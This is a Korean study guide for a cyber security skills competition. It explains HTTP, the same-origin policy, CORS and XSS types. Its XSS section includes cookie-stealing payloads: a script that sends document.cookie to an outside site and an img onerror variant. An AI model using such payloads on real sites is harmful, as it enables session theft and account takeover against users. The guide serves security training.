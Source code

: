 ```yaml
---

# 🛡 사이버 보안 *Cyber Security* 🔐
## 🖋 *Written by **Donghyun Choi*** (**KGU**)
###### ⚔ - Worldskills Korea ▫ National 2025 (Cyber Security Practices) - 🏹 [ *Written by NullBins* ]
- By default, Solves problems using only Kali Linux.
- ❗❗ **Never attempt to use this guide on a commercial site or server. You do so at your own risk.** ❗❗
- ❗❗ **절대로 이 가이드를 보고 상용 중인 사이트나 서버에 시도하지 마십시오. 해당행위로 생기는 책임은 본인에게 있습니다.** ❗❗

# [ *Project-3* ] <*⚔Hacking Guides🛠*>

---
```


## 1. 🌐웹 해킹 (Web Hacking)
- **HTTP 헤더 (HTTP Header)**: HTTP 헤더의 각 줄은 `CRLF`로 구분되며, 첫 줄은 `Start Line`, 나머지 줄은 `Header`라고 부른다. 헤더의 끝 줄은 빈 줄로 나타낸다.
- **CRLF**: `CR(Carriage Return)`과 `LF(Line Feed)`의 조합을 나타낸다. **CR**은 커서를 현재 줄의 맨 앞으로 이동시키는 문자, **LF**는 커서 다음 줄로 문자이다.
- 윈도우에서는 줄을 종결하기 위해 `CRLF`를 사용하고, 리눅스나 유닉스 기반 운영체제에서는 `LF`만을 사용한다.
- **HTTP 요청의 시작줄**은 `메소드(Method)`, `요청 대상(Request Target)`, `HTTP 버전`으로 구성된다. (ex. POST /login HTTP/1.1)
- **URL(Uniform Resource Locator)**: `웹에 있는 리소스의 위치`를 표현하는 문자열이다.
- **URL**은 http(`schema`)://cybersecurity.skills:8080(`authority`)/login(`path`)?id=user01(`query`)#name(`fragment`) 로 표현된다.
- **Fragment**는 *메인* 리소스에 존재하는 *서브* 리소스에 접근할때 이를 식별하기 위한 정보를 담고있다.
### **쿠키 생성 JavaScript 명령어**
```javascript
document.cookie = "name=test;"
document.cookie = "age=30;"
```
- **SOP(Same Origin Policy)** 란 동일 출처 정책으로서 보안 메커니즘이다. 이걸 사용하는 이유는 *브라우저는 웹 리소스를 통해 간접적으로 `타 사이트를 접근할때`도 인증 정보인 쿠키를 함께 전송하는 특징때문이다.*
- 이 SOP를 적용하게 되면 `스키마`, `호스트`, `포트`만 달라도 Cross Origin으로 인식하게 된다. 오로지 Path만 허용하게 된다.
- 예를들어 `https://meister.hrdkorea.or.kr` 이라는 사이트에 접속하여 밑에 있는 명령어를 입력하게 되면 SOP가 적용되어 있는 사이트의 경우 `Origin 오류`가 생긴다.
### Cross Origin 공격
```javascript
crossNewWindow = window.open('http://www.world-skills.kr');
console.log(crossNewWindow.location.href);
```
- 하지만 밑의 명령어 처럼 데이터를 쓰는것은 문제없이 동작한다.
### 데이터 쓰기
```javascript
crossNewWindow = window.open('http://www.world-skills.kr');
crossNewWindow.location.href = "https://meister.hrdkorea.or.kr";
```
- 사이트의 호스트가 달라 SOP때문에 정보를 교환하지 못할때 이러한 Cross Origin 정책을 완화시켜주는 방식은 `CORS(Cross Origin Resource Sharing)`이다.
- **Stored XSS**: `악성 스크립트가 서버에 저장`되고 `서버 응답에 담겨오는` XSS
- **Reflected XSS**: `악성 스크립트가 URL에 저장`되고 `서버 응답에 담겨오는` XSS
- **DOM-Based XSS**: `악성 스크립트가 URL Fragment에 저장`되는 XSS
- **Universal XSS**: 브라우저 플러그인 취약점으로 `SOP 정책을 우회하는` XSS
### XSS 스크립트
```html
<script>
document.cookie;
alert(document.cookie);
document.cookie = "name=test;";
new Image().src = "https://meister.hrdkorea.or.kr?cookie=" + document.cookie;
document;
document.write = "You have been Hacked!";
</script>
<img src="XSS" onerror="location.href = '?cookie=' + document.cookie">
```

---

## 2. 🛠리버스 엔지니어링 (Reverse Engineering)
